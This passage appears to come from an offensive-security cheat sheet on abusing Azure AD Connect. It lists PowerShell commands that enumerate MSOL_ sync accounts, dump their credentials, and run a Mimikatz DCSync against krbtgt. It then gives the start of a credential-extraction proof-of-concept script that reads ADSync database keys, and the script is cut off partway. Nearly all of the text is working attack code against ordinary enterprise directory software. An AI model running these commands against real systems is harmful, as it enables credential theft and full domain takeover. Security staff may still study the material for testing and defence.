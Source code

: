 # VIII. Cross Domain Attacks [ Azure AD Integration ]

##### Methodology/Steps

> 1. Enumerate the users accounts who have **MSOL_** attribute identity.
> 2. Start a process with the priv of that user
> 3. Execute adconnect.ps1 script, this will provide the creds of the user
> 4. Connect using runas and perform a DCSync Attack

------

```powershell
# 1. Enumerate the PHS account and server where AD Connect is installed
# Powerview
Get-DomainUser -Identity "MSOL_*" -Domain techcorp.local

# AD Module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Server techcorp.local -Properties * | select SamAccountName,Description | fl

# 2. Dump the creds of the user and logon
. .\adconnect.ps1
adconnect

# or Runas that user
runas /user:techcorp.local\MSOL_16fb75d0227d /netonly cmd

# 3. Execute the DCSync attack
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:techcorp\krbtgt /domain:techcorp.local"'
```

---

###### Abusing Azure AD Connect

+ Run the following script

```powershell
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

#$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync"
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
```